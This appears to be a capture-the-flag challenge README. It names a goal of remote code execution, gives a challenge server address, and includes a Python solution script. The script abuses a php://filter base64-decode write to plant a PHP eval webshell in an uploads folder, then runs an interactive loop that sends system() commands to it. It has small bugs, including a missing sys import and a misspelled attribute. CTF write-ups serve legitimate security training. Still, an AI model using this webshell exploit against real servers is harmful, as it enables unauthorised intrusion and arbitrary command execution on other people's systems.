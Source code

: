 #### Goals
 * RCE and try to find the flag

#### Server Address
 * http://web.sniperoj.com:10008/

#### Solution
```python
#!/usr/bin/env python

import requests
import string


if len(sys.argv) != 3:
	print "Usage: "
	print "\tpython %s [HOST] [PORT]" % (sys.argv[0])
	exit(1)

host = sys.argv[1]
port = int(sys.argv[2])

url = "http://%s:%d/" % (host, port)

password = "c"
webshell = "<?php eval($_POST[%s]);?>" % (password)
filename = "sh311.php"
writeable = "uploads/"

def exploit():
	data = {
		"filename":"php://filter/write=string.strip_tags/write=convert.base64-decode/resource=%s%s" % (writeable, filename),
		"code":webshell.encode("base64"),
	}
	response = requests.post(url, data=data)
	if response.status_code == 200:
		return True
	return response.satus_code

def shell(webshell_url):
	while True:
		command = raw_input("=>")
		if string.lower(command) == "exit":
			break
		# system, exec, shell_exec, popen, proc_open, passthru
		data = {password:"system('%s');" % (command)}
		response = requests.post(webshell_url, data=data)
		print response.text
		pass

def main():
	print "[+] Lauching attack"
	result = exploit()
	if result == True:
		print "[+] Exploited!"
		print "[+] The webshell is : %s" % (webshell)
		webshell_url = url + writeable + filename
		print "[+] Stored at : %s" % (webshell_url)
	else:
		print "[-] Exploit failed! Error code : [%d]" % (result)
	shell(webshell_url)

if __name__ == '__main__':
	main()
```

#### Writeups
 * [Offical Writeup]()


## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
